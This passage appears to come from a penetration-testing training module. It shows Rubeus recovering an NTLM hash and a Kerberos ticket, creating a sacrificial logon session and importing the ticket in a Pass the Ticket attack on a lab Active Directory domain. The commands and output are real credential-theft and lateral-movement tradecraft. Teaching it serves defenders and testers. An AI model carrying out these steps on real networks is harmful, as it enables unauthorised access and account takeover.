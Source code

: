 ```powershell
[*] base64(ticket.kirbi):

   doIGJjCCBiKgAwIBBaEDAgEWooIFRTCCBUFhggU9MIIFOaADA...SNIP...

[*] Getting credentials using U2U

 CredentialInfo    :
  Version       : 0
  EncryptionType   : rc4_hmac
  CredentialData   :
   CredentialCount  : 1
    NTLM       : 2D1DA879CA71003...SNIP...

```

Now, we have two options for using the output provided by Rubeus: we can use the NT Hash with any of our preferred tools or Gabriel's TGT. Let's use the ticket with Rubeus.

One of the different methods we can use is to create a sacrificial logon session using the Rubeus option `createnetonly`:

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username    : TSRS8WIH
[*] Domain     : EW74A3R2
[*] Password    : 85Y3U0HS
[+] Process    : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID   : 3456
[+] LUID      : 0x250d07

```

When we specify the option `/show`, it will display the process we executed. In this case, we run `powershell.exe`. In the new PowerShell window, we need to use `Rubeus ptt` with the option `/ticket:<BASE64 output>` to perform a Pass the Ticket attack:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIGJjCCBiKgAwIBBaEDAgEWooIFRTCCBUFhggU9MIIFOaADA...SNIP...
  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname